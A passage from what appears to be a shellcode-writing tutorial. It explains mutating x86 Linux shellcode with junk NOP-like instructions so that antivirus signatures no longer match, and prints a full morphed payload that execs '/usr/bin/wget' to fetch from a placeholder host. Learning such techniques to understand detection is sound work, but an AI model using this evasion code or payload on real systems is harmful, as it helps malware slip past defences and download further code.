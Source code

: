 ```
```

#### Modifications

Again, we see some obvious things we can modify, such as how values get into registers, but there's another technique I haven't used yet to mangle signatures, and that's the concept of NOPs. There is the literal instruction NOP, but there are also NOPs that are valid instructions that don't effect the functionality of the program. For example, if you need the value 0x2 inside the EAX register, you can simply do a `mov eax, 0x2`, but you could also do `mov ebx, 0x4; inc edx; mov eax, 0x2; pushad; popad`. Even though there are 5 instructions in the second set, it still accomplishes the same goal. We will use that technique in this shellcode as well.

**_morphed shellcode_**

```
inc esp
inc ebp
cdq

dec    esp
dec    ebp
push   edx
push   0x61616161
inc    edx
mov    ecx,esp
dec    edx
push   edx

push   0x74
push   0x6567772f
push   0x6e69622f
push   0x7273752f
mov    ebx,esp

push   edx
push   ecx
pushad
popad
push   ebx
mov    ecx,esp
push   0xb
pop    eax
int    0x80

add    al, 0x2
dec    al
int    0x80
```

#### Results

The original shellcode was 42 bytes, and our morphed version was 53 bytes. That results in a *26%* increase in size, which is still within our boundary.

